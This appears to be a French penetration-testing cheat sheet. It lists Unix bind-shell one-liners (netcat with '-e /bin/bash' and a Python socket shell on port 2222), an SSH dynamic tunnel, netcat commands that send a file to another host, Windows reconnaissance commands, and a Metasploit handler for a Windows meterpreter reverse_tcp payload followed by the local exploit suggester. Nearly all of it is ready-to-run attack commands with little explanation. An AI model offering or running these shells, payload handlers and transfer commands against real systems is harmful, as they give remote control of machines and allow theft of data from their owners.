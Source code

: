 <h2>Unix</h2>
Accorder les permissions pour un user specifique
setfacl -m u:username:rwx myfolder
Tunnel ssh dynamique sur le port local 8080:</br>
ssh -ND 8080 root@addressIP</br>
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :
<ul>
  <li>nc -lvp 2222 -e /bin/bash</li>
  <li>python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"</li>
</ul>
On se connecte avec nc -nv 2222 adress port</br>

Envoi fichier avec netcat :</br>
nc -l -p 1234 > out.file</br>
nc -w 3 [destination] 1234 < out.file</br>

<h2>Windows</h2>
systeminfo pour obtenir des renseignements sur le systeme
net users [username] pour obtenir des renseignements sur les utilisateurs
tasklist pour lister les processus
netstat -ano pour les connexions reseau
dir sysprep /s /b pour trouver un fichier dans le repertoire courant et ses sous-dossiers


<h2>Metasploit</h2>
Handler :
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.8.142
set LPORT 8888
set ExitOnSession false
exploit -j -z

use post/multi/recon/local_exploit_suggester
